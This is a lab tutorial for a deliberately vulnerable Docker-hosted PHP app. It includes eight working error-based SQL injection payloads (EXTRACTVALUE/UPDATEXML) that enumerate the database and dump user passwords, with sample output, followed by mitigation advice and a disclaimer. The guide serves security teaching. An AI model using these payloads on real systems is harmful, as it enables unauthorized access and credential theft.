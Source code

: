 
# Error SQL injection: Setup and Exploitation Guide

This guide provides instructions to set up a vulnerable PHP web application, run it locally using Docker, and exploit SQL injection vulnerabilities to understand how such attacks work in real-world scenarios.
---

## Prerequisites

1. **Docker Installed**: Ensure Docker is installed on your system.
   - Check Docker version:
     
     docker --version
    

Install from docker.com if necessary.

2. **Basic Command Line Knowledge**: Ability to navigate and run commands in the terminal.

---

## Setting Up the Application
### Step 1: Clone the Repository
Clone this repository to your local machine:

git clone https://github.com/christina210490/Service_Web_Error_sqli.git

### Step 2: Build and Run the Docker Containers
1. Build the Docker Environment:

docker-compose build

2. Run the Docker Containers:

docker-compose up

3. Access the Application: Open your browser and navigate to:

http://localhost:8081


4. Stop the Application: 

Press Ctrl+C in the terminal running docker-compose or stop it with:

docker-compose down

## Exploiting the SQL Injection Vulnerability


The vulnerable application is set up with a sample database. Below are step-by-step instructions to exploit SQL injection vulnerabilities in this application.


Attack 1: Retrieve MySQL Version

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, @@version)) -- -

Result: SQL error: XPATH syntax error: ' 5.7.44'
SQL error reveals the MySQL version: 5.7.44.
.................................

Attack 2: Retrieve Database Name:

http://localhost:8081/user?id=1' AND UPDATEXML(1, CONCAT(0x0a, DATABASE()), 1) -- -

Result: SQL error: XPATH syntax error: ' testdb'
SQL error reveals the database name: testdb.
.................................

Attack 3: Retrieve the Number of Tables in the Database

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = 'testdb'))) -- -

Result: SQL error: XPATH syntax error: ' 3'
There are 3 tables.
.................................

Attack 4: Retrieve Table Names

1. Retrieve all table names in one query:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'testdb'))) -- -

Result: SQL error: XPATH syntax error: ' orders,payments,users'

2. Retrieve table names one by one:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 0,1))) -- -

Result: SQL error: XPATH syntax error: ' orders'

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 1,1))) -- -

Result: SQL error: XPATH syntax error: ' payments'

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'testdb' LIMIT 2,1))) -- -

Result: SQL error: XPATH syntax error: ' users'
.................................

Attack 5: Retrieve Column Information

1. Retrieve the number of columns in the users table:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT COUNT(*) FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'testdb'))) -- -

Result: SQL error: XPATH syntax error: ' 4'.

2. Retrieve column names:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT column_name FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'testdb' LIMIT 0,1))) -- -

Result: SQL error: XPATH syntax error: ' id'.

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT column_name FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'testdb' LIMIT 1,1))) -- -

SQL error: XPATH syntax error: ' name'

Repeat for other columns: email, password.
.................................

Attack 6: Retrieve User Data
Retrieve rows from the users table:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT CONCAT(id, ':', name, ':', email, ':', password) FROM users LIMIT 0,1))) -- -

Result: 1:Alice:alice@example.com:password1.

Repeat for other rows to retrieve all user data.
.................................

Attack 7: Extract All Passwords:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT GROUP_CONCAT(password SEPARATOR '') FROM users))) -- -

Result: password1password2password3.
.................................

Attack 8: Retrieve row by row of "orders" table:

http://localhost:8081/user?id=1' AND EXTRACTVALUE(1, CONCAT(0x0a, (SELECT CONCAT(order_id, ':', user_id, ':', product, ':', amount) FROM orders LIMIT 0,1))) -- -

Result: SQL error: XPATH syntax error: ' 1:1:Laptop:999.99'
---

# Impact

This application demonstrates the critical risks of SQL injection vulnerabilities, including:

1. Data Theft: Attackers can retrieve sensitive information like user credentials.

2. Database Manipulation: Malicious queries can delete, modify, or insert data.

3. System Exposure: Attackers can gain insights into system configurations.

---

# Mitigation

To prevent SQL injection:

1. Use Prepared Statements:

Avoid directly concatenating user inputs into SQL queries.
Use parameterized queries.

2.Input Validation:

Validate and sanitize all user inputs.
Reject unexpected or dangerous input patterns.

3. Least Privilege:

Restrict database permissions to limit the impact of an exploited vulnerability.

## Key Takeaways

- This app demonstrates the risks of unsanitized user inputs in SQL queries.
- Real-world attackers could exploit such vulnerabilities to steal sensitive data or manipulate the database.
- Always use prepared statements and validate user inputs to prevent SQL injection.

---

## Disclaimer: 

This guide is intended for educational purposes in a controlled environment. Unauthorized testing or exploitation is illegal and may lead to legal consequences.
